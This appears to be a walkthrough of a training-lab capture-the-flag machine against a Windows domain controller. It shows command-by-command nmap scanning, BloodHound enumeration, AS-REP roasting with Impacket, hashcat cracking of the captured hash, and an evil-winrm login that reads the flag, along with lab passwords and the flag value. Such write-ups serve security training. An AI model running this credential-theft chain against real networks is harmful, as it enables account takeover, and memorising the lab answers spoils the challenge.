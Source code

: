 enumerate ports    
`sudo nmap -p- --min-rate=1000 -T4 -oN nmap_fast --stats-every 15s 10.10.10.30`    

more detailed scan for   
`sudo nmap -sV -sS -sU -A -oN nmap_details --stats-every 15s --script=/home/stddel/git/vulscan/vulscan.nse -p(cat nmap_results | grep '^.[0-9]' | cut -d '/' -f 1 |  tr '\n' ',' | sed 's/,$//g') 10.10.10.30`   


389/tcp   open          ldap           Microsoft Windows Active Directory LDAP    
88/tcp    open          kerberos-sec   Microsoft Windows Kerberos    
> This should be a Windows Domain Controller    

enumerate DC with credentials from the previous machines    
`python bloodhound/bloodhound.py -d megacorp.local -u sandra -p "Password1234!" -gc pathfinder.megacorp.local -c all -ns 10.10.10.30`     
The results are all the info from DC    
```
computers.json
domains.json
groups.json
users.json
```

`neo4j start console`     
`bloodhound --no-sandbox`    
This should show the structure of the domain and give the attack vector.    
Have not found a way to give a reasonable results.    

It's worth checking if Kerberos pre-authentication has been disabled for this account, which means it is vulnerable to ASREPRoasting.
We can check this using a tool such as Impacket's GetNPUsers.    

```
python /home/stddel/git/impacket/examples/GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30 > hash

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:8640b0e4cfc6e6ea75c52b7a8718c883$7792389ea3206bc285cc9d37d02cb745fa9e34499ece99cd1928be3ae94e52fade17f0895ddb32642eedb5bf505ae8864932792f5851c302259ff6ab14e45443a9cda7f698e59c5a75da3af2a411fe0a835e05bdde7b081438d8a0795231f6fdab19640b66ef2c306e29500e90765d653f9f9bd6dd0b6b9c7db971ac5462e9b3855a2c8b82df002a985271007e053f662c6f36fb6703ad31ac6be85ff7dd1637e5a67fb6088f6a7a8510dcf8024e5e7d123fe6c6cb0dc1f2d7fab71b9df357127cd42e756f1204b3e30d9d79722a526b344b443d4b56321baa3c8e976a810b52555a37f737f30540ee8c6158b2d6940a
```

hash part starts at right from `$krb5asrep$23$...`    
```
hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt

>

svc_bes@MEGACORP.LOCAL:Sheffield19
```

It is now possible to access the server using WinRM    
```
gem install evil-winrm
evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19
```
And we are logged in now    
```
> whoami
megacorp\svc_bes
> cd C:\Users\svc_bes\Desktop>
> cat user.txt
b05fb166688a8603d970c6d033f637f1
```





